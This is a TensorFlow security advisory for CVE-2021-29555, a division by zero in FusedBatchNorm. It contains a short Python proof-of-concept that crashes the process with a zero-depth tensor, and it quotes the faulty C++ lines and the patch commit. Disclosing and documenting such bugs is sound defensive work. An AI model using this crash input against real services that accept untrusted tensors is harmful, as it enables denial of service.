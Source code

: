 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-043.md
## TFSA-2021-043: Division by 0 in `FusedBatchNorm`

### CVE Number
CVE-2021-29555

### Impact
An attacker can cause a denial of service via a FPE runtime error in
`tf.raw_ops.FusedBatchNorm`:

```python
import tensorflow as tf

x = tf.constant([], shape=[1, 1, 1, 0], dtype=tf.float32)
scale = tf.constant([], shape=[0], dtype=tf.float32)
offset = tf.constant([], shape=[0], dtype=tf.float32)
mean = tf.constant([], shape=[0], dtype=tf.float32)
variance = tf.constant([], shape=[0], dtype=tf.float32)
epsilon = 0.0
exponential_avg_factor = 0.0
data_format = "NHWC"
is_training = False

tf.raw_ops.FusedBatchNorm(
    x=x, scale=scale, offset=offset, mean=mean,
    variance=variance, epsilon=epsilon,
    exponential_avg_factor=exponential_avg_factor,
    data_format=data_format, is_training=is_training)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/828f346274841fa7505f7020e88ca36c22e557ab/tensorflow/core/kernels/fused_batch_norm_op.cc#L295-L297)
performs a division based on the last dimension of the `x` tensor:

```cc
const int depth = x.dimension(3);
const int rest_size = size / depth;
```

Since this is controlled by the user, an attacker can trigger a denial of
service.

### Patches
We have patched the issue in GitHub commit
[1a2a87229d1d61e23a39373777c056161eb4084d](https://github.com/tensorflow/tensorflow/commit/1a2a87229d1d61e23a39373777c056161eb4084d).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
